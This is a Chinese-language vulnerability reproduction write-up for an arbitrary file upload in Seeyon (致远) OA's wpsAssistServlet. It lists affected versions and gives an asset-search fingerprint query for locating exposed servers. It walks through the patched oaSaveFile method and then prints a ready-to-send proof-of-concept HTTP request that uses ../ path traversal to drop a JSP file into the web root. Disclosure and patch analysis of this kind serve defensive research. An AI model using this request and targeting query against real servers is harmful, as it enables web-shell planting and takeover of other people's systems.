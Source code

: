 # 致远OA wpsAssistServlet 任意文件上传漏洞

# 致远OA wpsAssistServlet 任意文件上传漏洞

## 漏洞描述

致远OA wpsAssistServlet接口存在任意文件上传漏洞，攻击者通过漏洞可以发送特定的请求包上传恶意文件，获取服务器权限

## 漏洞影响

```
致远OA A6、A8、A8N (V8.0SP2，V8.1，V8.1SP1)
致远OA G6、G6N (V8.1、V8.1SP1)
```

## 网络测绘

```
app="致远互联-OA" && title="V8.0SP2"
```

## 漏洞复现

产品主页

![image-20220824142723820](/images/202208241427877.png)

下载补丁220706-S004 ，对比修改的文件

![image-20220824142736294](/images/202208241427361.png)

主要修改的是 `com.seeyon.ctp.common.wpsassist.manager.WpsAssistManagerImpl.oaSaveFile` 这个方法

```
private Map<String, Object> oaSaveFile(HttpServletRequest request, Map<String, Object> param) throws Exception {
        Map<String, Object> result = Maps.newHashMap();
        result.put(BusinessKey.OfficeTransResultFlag.getCode(), (Object)null);
        Long fileId = MapUtils.getLong(param, "fileId");
        log.info("wpsAssist SaveFile start!fileId=" + fileId);
        String newPdfFileId = MapUtils.getString(param, "newPdfFileId");
        if (Strings.isNotBlank(newPdfFileId)) {
            fileId = Long.valueOf(newPdfFileId);
        }

        String realFileType = MapUtils.getString(param, "realFileType");
        String tempFileIdPathSuffix = SystemEnvironment.getSystemTempFolder() + File.separator + fileId + realFileType;
        Long count = this.saveFileToPath(request, tempFileIdPathSuffix);
        result.put(BusinessKey.FileSize.getCode(), count);
        result.putAll(this.createOfficeTransCacheFile(fileId, tempFileIdPathSuffix, MapUtils.getString(param, "canTransFileType")));
        param.put(BusinessKey.OfficeTransResultFlag.getCode(), result.get(BusinessKey.OfficeTransResultFlag.getCode()));
        this.copyToUploadAndTrans(param);
        return result;
    }
```

向上追溯调用的 oaSaveFile方法的代码

![image-20220824142757449](/images/202208241427516.png)

![image-20220824142808032](/images/202208241428101.png)

在 `com.seeyon.ctp.common.wpsassist.WpsAssistServlet.doPost` 中，flag参数为save时，可以调用文件上传接口

![image-20220824142821539](/images/202208241428602.png)

`C://Seeyon/A6/base/temporary` 为默认上传的位置，但 `realFileType, fileId` 参数可控，可以通过 ../ 遍历上传到任意目录下，验证POC

```
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2 HTTP/1.1
Host: 
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```

![image-20220824142837723](/images/202208241428763.png)

![image-20220824142846959](/images/202208241428999.png)

